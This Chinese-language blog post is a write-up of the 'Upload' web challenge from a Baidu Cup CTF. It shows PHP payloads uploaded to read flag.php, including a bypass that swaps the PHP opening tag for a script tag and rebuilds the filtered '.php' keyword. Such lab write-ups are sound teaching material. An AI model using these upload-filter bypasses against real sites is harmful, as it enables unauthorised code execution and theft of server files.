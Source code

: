 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
description: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2021-03-25 18:56:31 +0800
image:  '/images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![image-20210324144139821](/images/posts/ctf/image-20210324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![image-20210324144309647](/images/posts/ctf/image-20210324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![image-20210324145416668](/images/posts/ctf/image-20210324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件：

![image-20210324145532512](/images/posts/ctf/image-20210324145532512.png)

由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![image-20210324150835203](/images/posts/ctf/image-20210324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![image-20210324151330884](/images/posts/ctf/image-20210324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![image-20210324151407995](/images/posts/ctf/image-20210324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
